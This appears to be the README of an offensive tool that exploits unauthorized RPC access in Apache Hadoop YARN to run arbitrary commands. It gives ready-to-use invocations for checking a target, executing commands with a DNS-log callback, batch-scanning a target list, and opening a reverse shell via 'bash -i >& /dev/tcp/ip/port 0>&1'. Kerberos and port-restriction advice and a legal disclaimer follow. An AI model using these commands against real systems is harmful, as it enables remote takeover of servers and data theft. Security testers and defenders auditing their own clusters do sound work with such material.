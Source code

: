 ## Vuln Impact

There was an unauthorized access vulnerability in Hadoop yarn ResourceManager. This vulnerability existed in Hadoop yarn, the core component of Hadoop. Because Hadoop yarn opened the RPC service to the public by default, a remote attacker could take advantage of this unauthorized vulnerability and execute arbitrary commands through the RPC service, so as to control the target server, In view of the high-risk status and great harm of this vulnerability, and the details have been disclosed and exploited by the opposition, it is recommended that all users using Apache Hadoop conduct self-examination and take security measures in time.

## Vuln Product

Apache Hadoop Yarn *

## Vunl Check

#### Basic usage

```c
python3 Hadoop_Yan_RPC_RCE.py
```

![img](img/usage.png)

#### Vuln check

```c
python3 Hadoop_Yan_RPC_RCE.py -v true -t http://www.target.com 
```

![img](img/check.png)

#### command execute

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com  -c "curl xxx.dnslog.cn"
```

![attack](img/attack.png)

![dnslog](img/dnslog.png)

#### batch scan

```c
python3 Hadoop_Yan_RPC_RCE.py -s true -f target.txt
```

![scan_result](img/scan_result.png)

#### Reserve Shell

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
```

![reverse_shell1](img/reverse_shells.png)

### Reference

https://nosec.org/home/detail/4905.html

https://github.com/N0b1ta/Bit-Cannon/tree/master/Apache/Hadoop/YARN/hadoop-yarn-rest-api-unauth

#### Safety Advice  

1.Enable Kerberos authentication to prevent unauthorized access.  

```xml
<property>
    <name>hadoop.security.authentication</name>
    <value>kerberos</value>
    <final>false</final>
    <source>core-site.xml</source>
</property>...
<property>
    <name>hadoop.rpc.protection</name>
    <value>authentication</value>
    <final>false</final>
    <source>core-default.xml</source>
</property>
```

2.Prohibit external addresses from accessing Hadoop RPC service related ports or configured to be open only to trusted addresses.



**Solemnly declare: Don't use this tool for illegal operation. This tool is only used for safety self checking  by Party A's personnel and Party B's personnel.If the user uses it illegally, the legal responsibility shall be borne by the user!!!**.
